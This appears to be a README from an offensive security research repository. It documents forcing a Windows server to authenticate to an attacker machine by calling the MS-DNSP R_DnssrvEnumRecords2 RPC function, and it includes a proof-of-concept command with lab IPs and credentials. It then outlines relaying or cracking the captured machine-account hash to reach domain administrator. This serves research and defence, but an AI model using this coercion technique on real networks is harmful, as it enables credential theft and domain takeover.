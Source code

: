 # MS-DNSP - Remote call to R_DnssrvEnumRecords2 (opnum 8)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvEnumRecords2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/0d236e58-9944-4cdf-ae98-f92460202e29)

+ **Function operation number**: `8`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvEnumRecords2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/0d236e58-9944-4cdf-ae98-f92460202e29) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvEnumRecords2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvEnumRecords2(
   [in]                                   handle_t           hBindingHandle,
   [in]                                   DWORD              dwClientVersion,
   [in]                                   DWORD              dwSettingFlags,
   [in, unique, string]                   LPCWSTR            pwszServerName,
   [in, unique, string]                   LPCSTR             pszZone,
   [in, unique, string]                   LPCSTR             pszNodeName,
   [in, unique, string]                   LPCSTR             pszStartChild,
   [in]                                   WORD               wRecordType,
   [in]                                   DWORD              fSelectFlag,
   [in, unique, string]                   LPCSTR             pszFilterStart,
   [in, unique, string]                   LPCSTR             pszFilterStop,
   [out]                                  PDWORD             pdwBufferLength,
   [out, size_is(, *pdwBufferLength)]     PBYTE*             ppBuffer
 );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvEnumRecords2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/0d236e58-9944-4cdf-ae98-f92460202e29
